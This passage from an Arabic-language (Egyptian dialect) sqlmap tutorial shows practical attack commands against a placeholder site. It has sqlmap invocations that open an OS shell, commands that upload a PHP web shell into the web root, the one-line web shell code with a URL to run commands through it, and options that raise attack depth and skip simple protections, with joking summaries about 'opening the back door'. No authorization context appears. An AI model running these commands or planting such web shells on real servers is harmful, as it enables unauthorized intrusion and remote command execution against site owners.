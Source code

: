 #### **مثال عملي:**
- **فتح شيل:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --os-shell
  ```
  لو نجح، هيفتح prompt تكتب فيه أوامر زي `whoami` أو `ls`.

- **كتابة ملف على السيرفر:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --file-write=/home/user/shell.php --file-dest=/var/www/html/shell.php
  ```
  حط في `shell.php` كود زي:
  ```
  <?php system($_GET['cmd']); ?>
  ```
  افتح `http://example.com/shell.php?cmd=whoami`.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "روح افتحلي الباب الخلفي للبيت"، يرجعلك بيقول "الباب مفتوح وكمان كتبت تعليمات للخدامين يسمعوا كلامك"، كده بقيت الكبير!

---

### **5. تخصيص الاختبار (Advanced Options)**
#### **إيه هو؟**
sqlmap فيه خيارات متقدمة عشان تتحكم أكتر، زي اختيار نوع الثغرة أو تسريع العملية.

#### **ازاي بيشتغل؟**
بتضيف أوامر زي `--level` أو `--risk` عشان تزود قوة الاختبار.

#### **مثال عملي:**
- **زيادة العمق:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --level=3 --risk=3
  ```
  الـ `--level=3` بيختبر حاجات أعمق زي الكوكيز، والـ `--risk=3` بيجرب أوامر أخطر.

- **تسريع العملية:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --threads=10 --dbs
  ```
  الـ `--threads=10` بيستخدم 10 خيوط لتسريع المهمة.

- **تجاهل الأخطاء:**
  ```
  sqlmap -u "http://example.com/product.php?id=1" --ignore-401 --dbs
  ```
  لو فيه حماية بسيطة، بيتخطاها.

#### **خلاصة طريفة:**
تخيل إنك بتقول لصاحبك "فتش البيت كله، ولو في حيطان اضربها، وكمان اجري بسرعة"، يرجعلك بكل حاجة في ثواني زي الصاروخ!

